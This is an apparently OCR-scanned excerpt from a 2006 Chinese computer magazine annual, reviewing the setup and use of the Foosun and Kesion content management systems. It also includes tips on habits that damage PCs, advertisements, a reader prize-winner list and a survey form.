动易系统的功能非常强大，由于篇幅所限，还有一些较为实用的功能这里就不再详细介绍了，如广告管理功能、数据库管理功能、在线比较网站文件功能等等。其中“数据库管理功能”可以对网站的数据库进行备份、恢复、压缩、初始化等操作，而且还可随时检测到数据库文件所占的服务器空间；“在线比较网站文件”功能主要是针对程序更新，该功能可以检测官方的最新补丁文件，而且在网站被黑客攻击后，可方便地检查出哪些文件被黑客进行了修改。

#### 2. 风讯CMS系统

风讯在今年9月20日推出了最新的FoosunCMS 4.0版本，该系统包括信息采集、整理、分类、审核、发布和管理，具备完善的信息管理和发布管理功能。FoosunCMS 4.0的前一个版本是FoosunCMS 3.2。风讯官方在4.0版本中对系统作了很大的改进，包括界面、标签的使用等等，但得到的好评却不多，许多用户更喜欢FoosunCMS 3.2。在本文中也将以FoosunCMS 3.2版本为例，向大家介绍风讯CMS系统的使用。

##### （1）风讯CMS系统的安装

在服务器的浏览器中输入http://localhost/install/install.asp，运行FoosunCMS安装向导。FoosunCMS的安装程序使用了类似软件产品的窗口式界面，安装过程中的重点是参数和管理员设置，在“软件产品参数设置”界面中，需对管理目录、生成文件保存路径、系统的虚拟目录、文件目录、模板文件目录等进行设置。

其中，“管理目录”是设置系统后台管理文件所在的目录，从系统的安全考虑，有些使用者会修改默认的文件夹命名，那样就需要在此进行设置；“生成文件保存路径”是设置系统静态网页文件的保存目录，如果该设置项为空，那静态网页文件将直接保存到站点的根目录下；“系统的虚拟目录”是设置站点在服务器上的路径，若系统置于站点根目录下，则不作任何设置，使用默认值；“文件目录”和“远程图片保存目录”是设置网站在使用过程中从站点以外上传和下载的文件、图片等等。

点击“下一步”按钮接着设置其他参数，在转入的这个新界面中主要是对系统的数据库存放路径进行设置，如新闻数据库、统计数据库、用户数据库等等。系统使用的数据库通常都会修改其文件名称以及存放路径，系统默认的数据库文件是存放于FooSun_Data下的，为了防止其他用户知道网站的数据库文件存放路径，可对数据库文件的扩展名进行修改，如修改为.asp。

最后是设置系统的超级管理员用户名和密码。风讯CMS系统中的用户名可以设置为英文，也可以中文命名。完成安装后系统会自动转到后台登录界面(http://localhost/foosun/admin/login.asp)。

> 小提示：安装步骤中的参数设置非常重要，若在这一步中出错，可能会导致系统某些功能不能使用。在系统安装后，若需要对这些参数进行修改，可在后台点击工具栏中的“系统管理”按钮，在左侧面板列表中展开“系统参数→站点常量设置”重新设置。

##### （2）初识风讯CMS系统

登录风讯CMS系统后台，可以很清楚地看到几大功能模块（如图6），包括信息管理、专题管理、站点管理、系统管理、目录管理、JS管理、常规管理、更改密码和退出系统。


“信息管理”功能模块主要是对栏目、文章进行管理，在该功能模块中可以创建网站栏目，添加文章等等；“站点管理”功能模块可以对模板、标签、文章生成等进行管理；“系统管理”功能模块则是一个大杂烩，包括了除系统主功能之外的其他附属功能，如参数设置、会员管理、管理员管理、数据库管理等等；“目录管理”功能模块的作用有些类似于FTP，可以执行创建目录、导入文件、删除文件等操作，但每次只能针对一个文件或目录进行操作。

##### （3）模板管理与标签管理

下面到了网站建设核心的第一步——模板文件的制作。风讯CMS系统在模板制作方面的最大特点就是可在线进行编辑，其编辑方式如同在Dreamweaver中一样，非常方便。

系统默认的模板文件存放路径是“/Templets”，点击后台工具栏中的“站点管理”按钮，在转入的界面左侧列表中选择“模板管理”，系统列出了Templets目录下的所有子目录和文件。在该界面中分别有“文本编辑”和“可视编辑”两个按钮，选择“文本编辑”是进入源码视图，选择“可视编辑”则可像使用Dreamweaver一样对模板进行编辑。

不过，由于“可视编辑”功能比较单一，所以通常只用于对模板的一些细节部分进行修改，在对表格、图片等网页元素的排版上还得借助Dreamweaver。

模板制作好后，接下来是网站栏目的创建。风讯系统中网站栏目的管理功能是在“信息管理”模块中进行操作的，使用比较简单，在此略过。创建好栏目后，紧接着就是创建标签。风讯中的“标签管理”非常直观和灵活，在“站点管理”功能模块中选择“自定义标签”，在该界面中提供了新建分类、新建标签、修改、删除、备份等标签管理功能。由于一个网站的栏目划分通常都很多，因此所需的标签也比较多，可以使用“新建分类”功能来对不同栏目的标签进行分类管理。

点击“新建标签”按钮进入标签设置界面，首先是设置标签的名称，这个名称可以是英文也可以是中文。在创建了一个标签后，可在模板中以“{FS_标签名称}”的方式将标签插入到模板中。在界面下方有一个编辑器，在编辑器工具栏上显示了风讯系统中所有的标签功能，如Flash幻灯、栏目导航、今日头条、图片新闻等等，功能相当丰富，选择相应标签功能插入到编辑器的文本区域中，点击“保存”按钮即可。

许多CMS系统的模板编辑都是在源码视图下进行，使用起来不太直观，而风讯系统的“可视编辑”功能正好弥补了这一缺陷。风讯CMS系统的标签管理功能也非常强大，提供了丰富的新闻列表形式，但遗憾的是官方没有提供一些常见的标签，例如通用文章列表、友情链接、文章搜索等等，这些标签在风讯系统中需要网站设计者一一创建，无疑加大了网站建设的工作量。

##### （4）文章发布与HTML生成

模板和标签都制作好了，我们来发布一篇文章试试。进入“信息管理”功能模块，选择一个栏目，此时在右侧的界面中会显示一个工具栏和列表，点击工具栏中的“添加内容”按钮会弹出一个菜单，如果是添加一篇文章，则可以选择“文字新闻”和“图片新闻”中任意一个，其中“图片新闻”主要是用于发布带标题图片的文章。当然，在选择添加“文字新闻”后，如果需要给该文章设置标题图片，也可以在界面中选择“转为图片新闻”复选框来进行添加（如图7）。


风讯系统的文章管理编辑器存在一个不足之处，那就是它将文章内容和新闻来源、文章作者等设置项分在了两个选项卡中，这在使用时稍显不便，不过在FoosunCMS V4.0版本中的编辑器已经有所改进。个人非常喜欢风讯系统文章编辑器中的分页功能，它可以将文章的各个分页分开，在有多个分页时就不用都挤在一个编辑器中，进行编辑时就方便得多了，但遗憾的是少了分页标题设置功能。

在文章编辑器的“新闻属性”选项卡中有多个复选框可供选择，如要下载从其他网站复制过来的图片，可选择“远程存图”复选框；新闻的评论功能是必不可少的，所以还需要选择“允许评论”和“显示评论”两个复选框。

一篇文章添加好后，系统会自动生成网站的首页、栏目页和文章页面（也可在“系统管理”功能模块的“新闻系统参数”中定义是否自动生成），如果需要对以前添加的文章进行发布，可在“站点管理”功能模块中选择“发布管理”，在这个页面中可对网站首页、栏目、新闻、专题、下载等页面进行生成设置管理。

风讯系统的模板功能使用非常方便，不过在用模板生成网页时，系统会自动生成一些代码；而标签功能虽然强大，但却少了些便利性。唯有HTML生成功能无可挑剔，提供了按日期、栏目、最新更新文章数量以及单篇文章的HTML生成，网站建设者随时都可对各个文章进行HTML生成操作。

#### 3. 科讯CMS系统

科讯CMS系统（Kesion CMS）是一款名不见经传的CMS系统，它的功能不见得强大、丰富，但却简单、实用，一般中小型网站所需要的功能在科讯CMS系统中都具备了。Kesion CMS系统除了一般CMS所具有的文章、图片、下载、用户、采集等功能模块外，商业版本还增加了动漫、音乐、影视功能模块等等。其子功能有公告、友情链接、广告系统、投票、作者、责任编辑、来源、内部链接、JS代码管理、批量管理、远程抓图、签收会员（文章、图片、下载及动漫等）、模板标签管理、评论管理等等更多实用的细小功能。

##### （1）安装与初始化设置

科讯CMS系统安装过程非常简单，只需要一个步骤操作。在服务器的浏览器中输入http://localhost/install.asp，打开系统安装界面，在该界面中只有管理账号、密码、网站名称、安装目录等几个设置项。在对这几个选项进行设置后，还有一个“生成的网站首页”选项设置，系统默认使用ASP文件格式，选择这个格式系统中的文章将以动态页面形式进行访问；如要生成静态HTML，则需要选择ASP以外的其他格式，如.html、.shtml等等。

设置完毕后，点击“完成安装”按钮，稍等片刻后系统会弹出一个对话框提示删除install.asp安装文件，这主要是为了保障系统的安全，在该对话框中点击“确定”按钮进入后台登录界面（如图8）。在登录界面中，除了需要输入用户名、密码和验证码之外（默认的用户名为admin，密码为admin888），还有一个认证码输入框，系统默认的认证码是admin999。

码为 kesion2006，用户也可在 Admin 目录下的 ChkCode.asp 文件中进行自定义。

安装完成进入后台后，首先需要对系统的一些功能选项进行设置，如文件目录信息、页面生成方式、Session 会话保持时间等等。首先点击后台工具栏中的“系统管理”按钮，在转入界面的左侧有一个面板列表，选择“基本信息设置”可对网站名称、网站地址、安装目录等进行设置，在安装时设置的生成网站首页扩展名也可在此进行修改；选择“目录信息设置”选项，在转入的界面中可对网站后台目录、模板文件目录、远程图片保存目录等进行修改，在设置这些目录时需注意“/”符号的使用；选择“开关选项设置”选项，在该功能项中主要是对“生成方式”进行设置，系统提供了“绝对路径”和“根相对路径”两种生成方式，通常建议选择“根相对路径”，如果选择“绝对路径”，那网站中的所有链接都类似于“http://www.softying.net/Html/news/5391.html”，当更换域名后修改链接非常麻烦，所有的页面都要重新生成；选择“附加选项设置”，在转入的界面中有一个“Session 会话保持时间”设置项，当在指定的保持时间内都未进行操作将自动退出系统。

虽然科汛 CMS 系统的安装看上去仅一个步骤，但在进入后台后的初始化设置是不容忽视的，系统的目录信息设置、缩略图选项设置和模块信息设置等等都必须在使用前配置好。

##### （2）模板与标签管理

科汛 CMS 系统的模板管理功能划分比较明确，点击工具栏中的“模板标签”按钮，在转入的界面中选择“模板管理”选项，在该选项下有网站通用模板、文章中心模板、图片中心模板、下载中心模板和专题模板几个子选项，用户可以很容易地找到要修改模板的所在位置。

选择“网站通用模板”下的“网站首页模板”选项，在转入的界面中列出了已有的首页模板名称。选择其中的一个模板，点击右下角的“编辑模板”对它进行编辑。编辑模板是在源码视图下进行的，可直接向源码中插入标签。如果对 HTML 代码不熟悉，也可以把模板代码复制到 Dreamweaver 中，编辑好后再将源码复制到源码视图中来。

点击工具栏中的“模板标签”，在该界面左侧有一个“标签管理”选项（如图9），选择该选项下的“系统函数标签”，可定义和编辑标签。科汛官方自带了大量的标签，如频道导航、网站公告、位置导航、通用推荐文章等等，只需要在模板中以“{LB_标签名称}”的格式插入进去即可。

在定义标签时，一个标签通常需要设置多个参数，而许多标签的参数变化不大，每定义一个标签都要重复大量相同的操作，实在有些麻烦。为此，科汛提供了标签克隆功能，只要对克隆后的标签作相应的修改即可。在标签上右击鼠标，然后选择“克隆”菜单项，系统会弹出一个对话框提示设置克隆标签的名称，设置好后点击“确定”按钮。

科汛 CMS 系统还提供了一个“自由标签”功能，在该功能中用户可嵌套多个标签，还可用表格来对标签的显示位置进行排版，以设计出不同的新闻显示效果。

科汛 CMS 系统中的标签管理功能比较简单方便，但模板管理功能使用起来就有些不顺手了。通常在更改编辑模板文件后，还需要点击“更新缓存”，才能在更新的文章网页中看到修改模板后的效果，其间多了好几个操作步骤。

##### （3）频道与文章管理

点击工具栏中的“文章管理”按钮可进入“频道与文章管理”界面。点击“添加频道”按钮将弹出一个页面，在页面中设置频道的名称、英文名称（即栏目文章的静态页面存放目录，设置后不能进行修改）；首页和文章页面的生成格式可自定义；最后是文章生成路径的格式，在该选项列表中提供了10个生成格式供选择，建议选择简短的生成路径格式，便于搜索引擎的收录。

在所有频道添加完后，界面会显示一个频道列表。双击其中一个频道，然后点击右下角的“添加文章”按钮进行文章发布。在文章发布界面中设有推荐、滚动、头条、热门等新闻显示方式，其中有一个“幻灯”复选框在默认情况下是灰色不可用的。如果需要发布幻灯新闻，需要选择“将此文转为图片文章”复选框，然后上传一个图片文件，此时“幻灯”复选框就会变为可用状态了。

科汛 CMS 系统中的文章管理编辑器有三大特点，一是文章分页功能，可以将文章的每个分页分别存放在不同的文档中，这在编辑文章时会方便一些；二是添加文章时各个设置的记忆功能，比如连续添加一个来源、作者的文章，在添加了第一篇后，之后的几篇都不需要再对来源和作者进行设置；三是文章的标题设置，科汛 CMS 系统提供了一个“简短标题”功能，这在排列不规则新闻时非常有用。

使用科汛 CMS 系统后，你会发现简单的四步操作就可完成网站的整个制作：第一步编辑模板，第二步添加标签，第三步创建网站栏目，第四步发布文章。科汛 CMS 系统的特点是简单、实用，比较适合中小型网站的制作，但在功能上还是存在不足，比如在对模板进行编辑后，需要更新一下缓存，才能看到修改后的效果，使用起来有些不便。另外“远程存图”功能也有一些小小的问题，在转载一些网站的文章时，经常出现无法存图的现象。

以上主要介绍了 PHP 和 ASP 语言编写的网站内容管理系统应用，关于 PHP 语言编写的内容管理系统，有一定技术基础的朋友可使用 DedeCMS；而 ASP 语言编写的内容管理系统，大家可在动易 CMS 系统和科汛 CMS 系统之中进行选择。至于 ASP.NET 语言编写的内容管理系统，推荐使用动网新闻系统，由于动网新闻系统所需的服务器权限较多，对于使用虚拟主机的站长来说有些麻烦，因此在本专题中也未对其进行介绍，如果拥有自己的服务器，使用动网新闻系统应该是一个不错的选择。

# # 电脑使用者 看过来

文/TMG qx

### 键盘变身餐桌

这些习惯很普遍，比如边吃饭边看电影，一不小心饭渣或菜汤就洒在键盘上了。饭粒滚入键盘缝，扫也扫不出来。如果你拆一次键盘，大概就会看到你键盘内部的“沉积岩”，饭渣、头发、烟灰、碎物等比比皆是。这样的碎片很有几率进入键盘内部，堵塞电路造成输入困难，而饮料或菜汤之类一次就足以摧毁键盘。

还有人喜欢在完成某项工作或工程时出于某种兴奋的心态畅快地大力敲击回车键。很快你的 Enter 键会因此报废。那时你该庆幸的是，幸好自己用的不是笔记本。

### 主机垫脚、过滤二手烟

由于空间或者其他要求，主机只能放在地上，靠近脚边的地方。有些同志的脚就不由自主地上去了。有时候情绪来了兴奋或愤怒地一脚就蹬过去了，然后主机摇摇晃晃了半天。不过这个短时期内看不出来效果。长此下去，你的硬盘也会非自然死亡。

香烟、雪茄会损伤你的肺，同样也会对电脑造成伤害。烟雾可能会涂抹覆盖住 CD-ROM、DVD 驱动器的读取头，然后造成读取错误。烟头烟灰更有可能使得你的扫描仪和打印机质量下降。

### 显示器作杂物架

大多数人有这个习惯，把光碟或其他东西放在显示器上面。而显示器在正常运转的时候会散热。若你总是把这些杂物放在显示器上头，或者堆积更多更重的东西，久而久之热气在显示器内部累积越来越多。再往后，你大概会发现你的显示器色彩失真了，伴随一些影像问题，或者突然黑屏了。那时再考虑把这些东西拿走就为时已晚了。

顺便说一点，尽量避免计算机与其他大型家用电器（空调、电视等）使用相同的电源插座，有可能会弄坏计算机的供电系统，也有可能导致系统重启。

### 屏幕当黑板

无论 CRT 或者 LCD 都是不能用手摸的。计算机在操作运行过程中会在元器件表面积聚大量静电电荷。显示器使用过后如果用手触摸显示屏幕的话，会发生剧烈的静电放电现象，静电放电可能会对显示器造成损伤。CRT 虽比 LCD 坚韧些，但用手触摸同样会留下手印，手上的油脂也有可能破坏显示器表面涂层。至于 LCD，就更脆弱了。用手对着显示屏指指点点或用力戳显示器，都可能划伤、损害显示器的液晶分子，使得显示效果衰弱退化。要是你的指甲足够长，那屏幕会被刮花脸，留下难以磨灭的痕迹。

还有一点，屏幕长时间显示同一个画面，会使相应区域老化速度加快，长此以往，显示器也会失真。影像重叠或色彩失真等问题也会接踵而至。

### 光碟变成储物仓

很多人喜欢把光碟一直放在光驱里，其实这种习惯非常不好，光碟放在光驱里，光驱会保持一段时间进行检测，特别是刻录机，经常会检测光驱，而高速光驱在工作时，电机及控制部件都会产生很高很强的热量。如果光驱长时间处于工作状态，高强度的热量会影响到部件的稳定性，同时也会加速机械部件的磨损和激光头的老化。

### 重启和非正常重启

经常有人一关机就想起某件事没处理完或者光碟忘记拿出来了，十秒钟不到，又马上伸出手来开机。殊不知这样对计算机的伤害有多大。短时间的频繁电压冲击，可能会损伤到电脑上的集成电路。受伤害最大的还是硬盘。硬盘从切断电源到完全停止转动需要很长时间。如果硬盘在没有停止转动的情况下就重新开机，相当于让处于减速状态下的硬盘重新加速运转。这对硬盘的冲击是致命的。

### 重复使用同类软件

有些人大概怕使用一种软件不安全，于是安装了太多相同功能的软件。相同功能的软件势必会行使同样的职责，因而会引起冲突。对同样功能的软件应有所取舍，不要太贪心，多未必就是安全。选择最适合自己并且使用顺手的软件就可以。在防病毒软件的问题上，尤其要如此。

### 长久不清理电脑

电脑长久不清理就要出问题，原因可能就是平时在删除软件时不是卸载，而是直接删除文件夹。非正常卸载，将会遗留大量不用的信息和文件，使系统盘可用空间越来越小，效率也越来越低，那时只有重装系统了。

如果长时间不扫描整理硬盘，有可能会使系统出错的几率加大，也有可能让系统运行速度变得很慢。

### 虚拟内存不指定范围

一般 Windows 自己划分虚拟内存的大小区域，但每次划分的大小不一致，过后却没及时删除，使硬盘上的碎片变多，因而影响到系统的效率。另外很多用户虚拟内存所在的空间很小，虚拟内存空间少于一定程度的时候，某些大型软件将不能执行，那时系统也会变得岌岌可危。

### DIY者常犯错误

很多 DIY 者们喜欢经常更新驱动程序，但是某些不适当的驱动版本有可能会引起硬件功能的变化和异常。建议在旧版本正常运转的情况下最好不要随意升级驱动。

最新的测试版或共享版软件，不适当的版本可能会引起系统的不稳定，尤其是测试版的程序，此类软件中还存在着某些不完善不稳定的因素，这些东西随时可能在你的系统中制造麻烦、损坏系统。

# 综合IT专业资讯

WWW.INTOZGC.COM

走进中关村网站·北京中观网网络信息技术有限公司

# 买家N多的IT网站！

it.com.cn

www.it.com.cn (IT世界网)

# 电脑硬件资讯 数码手机时尚 产品报价查询

# 免费看 高清看 流畅看

# 21CN网络电视VGO

下载网址： vgo.21cn.com

高清电影 热播剧集 专题直播

200个频道，500万人的选择，Vgo免费网络电视

中国视频门户 21CN视界 www.21cn.com

# 买电脑 查报价

# 就上泡泡网

敬请登陆 :WWW.PCPOP.COM

# # 2006年《电脑爱好者合订本》（上半年）
读者调查获奖名单

## 特别奖 1 名 ———

（笔记本电脑一台）

- 何贝励（四川）

## 一等奖 2 名 ———

（数码相机1台）

- 王 栗（湖北）
- 陈虹梵（北京）

## 二等奖 2 名 ———

（苹果 iPod 播放器一个）

- 徐安才（辽宁）
- 于 建（广东）

## 三等奖 10 名 ———

（U盘一个）

- 谢松霖（四川）
- 范宏军（陕西）
- 黄明和（北京）
- 赵昌波（北京）
- 王二刚（山西）
- 李远升（海南）
- 李思达（广东）
- 沈银伟（浙江）
- 杜苏旺（甘肃）
- 车英姿（贵州）

## 四等奖 2000 个 ———

（杀毒或防黑软件注册码1个）

| 王振良（辽宁） | 林瑞阳（福建） | 雪 山（新疆） | 匡 敏（湖北） | 陈 豪（湖南） |
| --- | --- | --- | --- | --- |
| 魏 民（山东） | 孙 俊（湖北） | 陈 杰（甘肃） | 张培涵（河南） | 田 江（河北） |
| 苏军欢（广东） | 曾辉勇（福建） | 谭 亮（山东） | 张文峰（湖北） | 王 彬（江苏） |
| 王振宇（山西） | 蔡少坤（广东） | 张 雷（四川） | 刘 恺（广东） | 项明礼（广东） |
| 李 健（云南） | 李玉华（河北） | 张文举（重庆） | 田沁雨（北京） | 杨治春（甘肃） |
| 严 耀（安徽） | 王志兴（山东） | 张弛华（北京） | 刘佳纳（广东） | 冯 涛（甘肃） |
| 彭千富（云南） | 张 浩（辽宁） | 陈 卓（北京） | 机启巾（宁夏） | 吴怡杰（上海） |
| 王正航（山西） | 刘 剑（广西） | 程益民（上海） | 崔本义（河北） | 冯 磊（陕西） |
| 邹希贵（福建） | 张帅帅（贵州） | 张旭东（浙江） | 张 力（安徽） | 唐井红（河南） |
| 卜 凡（山东） | 冯 冲（上海） | 孙晔宁（广东） | 孙巨龙（吉林） | 郑海洋（山东） |
| 戴佳兴（河北） | 何东方（江苏） | 吴奇伟（广东） | 王善洲（江苏） | 张英杰（吉林） |
| 吴 易（浙江） | 乔立楠（天津） | 武晓君（北京） | 赵东升（新疆） | 高海鹏（山东） |
| 郭 华（贵州） | 周长坤（湖北） | 刘一风（新疆） | 王锡权（黑龙江） | 刘春峰（辽宁） |
| 潘宏刚（云南） | 朱芳华（广西） | 邓永莉（云南） | 邵应花（江西） | 白 浩（陕西） |
| ... | | | | |

（以下略，请获四等奖的读者，注意查收电子邮件，获其他奖的读者，注意查收邮政包裹）

# # 2006《电脑爱好者合订本》

# 下半年读者有奖调查表

本有奖调查问卷请于2007年5月10日前寄达《电脑爱好者》杂志社，即可参加以下丰富奖品的抽奖

邮寄地址：北京市海淀区蓝靛厂南路25号嘉友曙光国际大厦南区8层808（100089）（请注明“合订本有奖调查”）

重大建议奖（3名）
19英寸液晶显示器3台（价值2000元）

建议奖（10名）
2006《电脑爱好者合订本》下半年一套

特别建议奖（5名）
电脑机箱5个（价值299元）

特别参与奖（10名）
友立会声会影9一套（价值199元）

优秀建议奖（5名）
友立会声会影9一套（价值199元）
+2006《电脑爱好者合订本》下半年一套

参与奖（30名）
本社出品图书一本

# 调 查 问 卷

姓名________ 性别________ 职业________ 电子邮件________
地址________ 邮政编码________

- 1. 合订本的CD光盘是否需要改成DVD光盘（ ）
A. 应该改成DVD光盘，我有DVD光驱。 B. 应该改成DVD光盘，但我没有DVD光驱。
C. 不应该改成DVD光盘，因为我没有DVD光驱。 D. 不应该改成DVD光盘，现在的CD足够了。

- 2. 合订本的光盘内容还缺乏什么？（ ）
A. 软件。 B. 教程。 C. 文章。

- 3. 合订本的附录选题对胃口么？（ ）
A. 选题不错，不过适合自己对胃口的不多。 B. 选题不错，适合自己的很多。
C. 选题陈旧，很多都看过，可能适合初学者。 D. 选题很差，或旧或偏，喜欢的很少。

- 4. 你是通过什么途径知道合订本的？（ ）
A. 《电脑爱好者》杂志广告。 B. 网站广告。 C. 朋友介绍
D. 书报摊亭。 E. 书店

- 5. 你是因为什么原因购买合订本的？（ ）
A. 收藏全年的《电脑爱好者》杂志。 B. 附录内容非常好。
C. 光盘内容非常好。 D. 赠送有价值的软件或者赠品。

- 6. 合订本改进那些地方会更吸引人？（ ）
A. 赠送商业软件（杀毒、办公、工具等）。 B. 采用精包装。
C. 增加光盘数量或者使用DVD光盘。 D. 增加页码。 E. 大抽奖。 F. 降价

- 7. 合订本的印刷和纸张质量怎么样？（ ）
A. 不错。 B. 不好。 C. 一般。

- 8. 您的建议和意见___________________________________